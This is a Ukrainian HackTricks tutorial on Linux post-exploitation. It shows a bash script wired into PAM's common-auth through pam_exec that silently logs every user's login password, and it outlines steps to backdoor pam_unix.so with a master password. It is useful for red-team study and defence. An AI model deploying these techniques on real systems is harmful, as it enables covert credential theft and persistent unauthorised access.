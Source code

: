 # Пост-експлуатація Linux

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі на HackTricks** або **завантажити HackTricks у PDF** Перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

## Підслуховування паролів для входу за допомогою PAM

Давайте налаштуємо модуль PAM для реєстрації кожного пароля, який використовує кожен користувач для входу. Якщо ви не знаєте, що таке PAM, перевірте:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**Для отримання додаткових відомостей перегляньте [оригінальний пост](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Це лише краткий огляд:

**Огляд техніки:**
Модулі підключної аутентифікації (PAM) пропонують гнучкість у керуванні аутентифікацією в системах на основі Unix. Вони можуть підвищити безпеку, налаштовуючи процеси входу, але також створюють ризики при неправильному використанні. Цей огляд наводить техніку захоплення облікових даних для входу за допомогою PAM, разом зі стратегіями пом'якшення наслідків.

**Захоплення облікових даних:**
- Створено сценарій bash під назвою `toomanysecrets.sh`, щоб реєструвати спроби входу, захоплюючи дату, ім'я користувача (`$PAM_USER`), пароль (через stdin) та IP віддаленого хоста (`$PAM_RHOST`) у файл `/var/log/toomanysecrets.log`.
- Сценарій зроблено виконуваним та інтегровано в конфігурацію PAM (`common-auth`) за допомогою модуля `pam_exec.so` з опціями для тихого запуску та викладення токену аутентифікації сценарію.
- Підхід демонструє, як компрометований хост Linux може бути використаний для конфіденційного реєстрування облікових даних.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Додавання задніх дверей в PAM

**Для отримання додаткової інформації перегляньте [оригінальний пост](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Це лише краткий огляд:

Модуль аутентифікації з можливістю підключення (PAM) - це система, яка використовується в Linux для аутентифікації користувачів. Вона працює на трьох основних концепціях: **ім'я користувача**, **пароль** та **служба**. Файли конфігурації для кожної служби розташовані в каталозі `/etc/pam.d/`, де спільні бібліотеки відповідають за аутентифікацію.

**Мета**: Змінити PAM для можливості аутентифікації за допомогою конкретного пароля, обходячи фактичний пароль користувача. Особливий акцент робиться на спільній бібліотеці `pam_unix.so`, яку використовує файл `common-auth`, що включений майже у всі служби для перевірки пароля.

### Кроки для модифікації `pam_unix.so`:

1. **Знаходження директиви аутентифікації** у файлі `common-auth`:
- Рядок, що відповідає за перевірку пароля користувача, викликає `pam_unix.so`.
2. **Зміна вихідного коду**:
- Додайте умовний оператор у вихідний файл `pam_unix_auth.c`, який надає доступ, якщо використовується попередньо визначений пароль, в іншому випадку продовжується звичайний процес аутентифікації.
3. **Перекомпілювання та заміна** зміненої бібліотеки `pam_unix.so` у відповідному каталозі.
4. **Тестування**:
- Доступ надається через різні служби (логін, ssh, sudo, su, заставка екрана) за допомогою попередньо визначеного пароля, тоді як звичайні процеси аутентифікації залишаються незмінними.

{% hint style="info" %}
Ви можете автоматизувати цей процес за допомогою [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}
